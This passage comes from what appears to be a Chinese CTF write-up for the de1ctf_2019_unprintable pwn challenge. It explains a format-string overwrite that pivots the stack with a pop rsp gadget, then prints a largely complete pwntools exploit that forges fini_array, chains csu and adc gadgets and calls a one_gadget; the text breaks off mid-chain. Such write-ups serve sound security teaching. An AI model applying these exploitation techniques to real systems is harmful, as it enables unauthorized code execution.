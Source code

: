 ```
payload = '%13$hn'
payload += '%' + str(pop_rsp&amp;0xffff) + 'c%23$hn'
payload = payload.ljust(0x200,'\x00')
payload += rop
```

修改完成后如下

[![](https://p3.ssl.qhimg.com/t013e9c25e28cfa8a96.png)](https://p3.ssl.qhimg.com/t013e9c25e28cfa8a96.png)

返回地址已经被修改为了pop rsp，rop链地址也修改完了

顺便说一下0008处的地址为什么是0x601248，我们设置的rop链存放的位置是0x601060，相对于buf的起始地址为0x200，而pop rsp的完整指令如下`0x000000000040082d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret`，除了将0x601248 pop到rsp，还要pop三个值到三个寄存器中，所以我们pop到rsp的地址需要相对于存放rop链的地址往高处空出3*8个字节，留给r13，r14和r15。

完整exp如下(来自于[四道题看格串新的利用方式](https://www.anquanke.com/post/id/221267#h3-4))

```
from pwn import *
p = process("./de1ctf_2019_unprintable",env=`{`'LD_PRELOAD':'./libc-2.23.so'`}`)
libc = ELF("./libc-2.23.so")

#获取stack地址，并计算出要修改的地址
p.recvuntil("0x")
stack = int(p.recv(12),16)-0x110-8
print hex(stack)

#劫持l_addr，从而在buf中伪造fini_array，再一次读并输出格式化字符串
payload = "%"+str(0x298)+"c%26$hn"
payload = payload.ljust(0x10,'\x00')+p64(0x4007A3)
p.send(payload)


sleep(1)
pop_rsp = 0x000000000040082d
csu_pop = 0x000000000040082A
csu_call = 0x0000000000400810
stderr_ptr_addr = 0x0000000000601040
stdout_ptr_addr = 0x0000000000601020
one = [0x45226,0x4527a,0xf0364,0xf1207]
one = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget = one[3]
offset = one_gadget - libc.sym['_IO_2_1_stderr_']
adc_p_rbp_edx = 0x00000000004006E8

rop_addr = 0x0000000000601260
tmp = stderr_ptr_addr-0x48

#利用adc将stderr修改为one_gadget
rop = p64(csu_pop)
rop += p64(tmp-1) #rbx
rop += p64(tmp) #rbp
rop += p64(rop_addr + 0x8 * 6 - tmp * 8 + 0x10000000000000000) #r12
rop += p64(offset + 0x10000000000000000) #r13
rop += p64(adc_p_rbp_edx) #r14
rop += p64(0) #r15
rop += p64(csu_call)

#call onegadget
rop += p64(csu_pop)
rop += p64(0) #rbx
rop += p64(1) #rbp
rop += p64(stderr_ptr_addr) #r12
rop += p64(0) #r13
```